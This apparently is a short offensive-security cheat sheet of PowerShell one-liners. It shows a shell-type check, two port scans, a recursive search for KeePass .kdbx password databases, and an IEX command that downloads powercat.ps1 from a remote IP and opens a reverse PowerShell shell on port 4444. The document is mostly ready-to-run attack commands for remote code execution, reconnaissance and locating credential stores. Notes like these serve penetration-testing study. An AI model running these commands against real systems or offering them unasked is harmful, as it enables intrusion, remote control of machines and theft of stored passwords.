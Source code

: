 
determine if command line is PowerShell or cmd:

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

download files from remote server with PowerShell:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

`Test-NetConnection -Port <port> <target_IP>` - Power shell command that can be used to run a port scan from a windows machine. This command will check if the target responds too ICMP and whether a specified TCP port on the target is open. The result of `TcpTestSucceeded` indicated whether the port is open or not.

`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).connect("TARGET_IP", $_)) "TCP port $_ is open"} 2>$null` - This is a power shell one-liner that will scan the first 1024 ports of our target specified.

`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` find all .kdbx files on the system (password databases used by password managers)

